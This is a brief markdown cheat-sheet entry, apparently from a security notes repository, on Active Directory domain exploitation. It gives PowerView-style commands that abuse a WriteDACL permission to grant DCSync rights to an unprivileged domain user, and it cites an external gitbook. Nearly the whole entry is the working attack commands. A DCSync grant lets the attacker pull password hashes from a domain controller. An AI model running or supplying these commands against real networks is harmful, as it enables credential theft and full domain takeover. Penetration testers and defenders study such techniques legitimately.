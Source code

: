 # Active Directory Domain Exploitation

`WriteDACL` to a domain, give DCSync right to an unprivileged domain user acount
```powershell
AddDomainObjectAcl -TargetIdentity "DC=,DC=local" -PrincipleIdentity $user -Rights DCSync
# Deprecate way
Add-DomainObjectAcl -Credential $Cred -TargetIdentity $domain.local -Rights DCSync
```


## References
[burmat](https://burmat.gitbook.io/security/hacking/domain-exploitation)